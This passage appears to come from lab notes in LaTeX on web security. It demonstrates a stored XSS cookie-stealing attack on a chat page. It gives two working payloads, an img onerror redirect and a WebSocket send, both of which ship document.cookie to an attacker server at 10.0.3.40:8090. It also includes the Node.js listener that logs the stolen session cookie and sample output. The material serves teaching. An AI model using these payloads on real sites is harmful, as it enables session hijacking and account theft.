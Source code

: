 	//aggiungere il codice
	
	The login page is the same seen before in a previous example, the reserved page is similar but it allows the access with the following credentials:
	\begin{itemize}
		\item \texttt{pippo pippo}
		\item \texttt{pluto pluto}
	\end{itemize}
	Then the page include the code of the previous chat example, the javascript code is the same and even the Java server code.\newline
	
	In order to steal the cookie we need to send the following message:
	\begin{lstlisting}
		<img src=1 hidden onerror=" document.location='http://10.0.3.40:8090/stealer?v='+document.cookie;">
	\end{lstlisting}
	
	
	The cookie is sent over, so the malevolent server is capable of stealing it.\newline
	
	\begin{lstlisting}
		//
		var http = require('http');
		
		var server = http.createServer(function (req, res) {
			console.log("Cookie retrived:"+req.url);
			res.end('! HACKED !');
		})
		
		server.listen(8090,'10.0.3.40');
	\end{lstlisting}
	
	
	The output of the server is the following:
	
	\texttt{Cookie retrived:/stealer?v=PHPSESSID=vcqqs219ns7b4naui67bmug}.\newline
	
	Opening a new WebSocket will not give you the cookie, in fact the cookie can be sent over if the host is the same of the web page, and our malevolent server is likely to be on a different address, using the \texttt{document.cookie} in order to create a false cookie is not that easy because the browser avoid the creation of cookie related to other domains.
	But it is possible to send the cookie via WebSocket with a simple invocation of the send(…) method, in fact with this script it is possible to trick a client:
	
	\begin{lstlisting}
		<img src=1 hidden onerror="var badws=new WebSocket('ws://10.0.3.40:8090/'); badws.onopen=function(event){ var tmp=document.cookie;badws.send(tmp);}">
	\end{lstlisting}

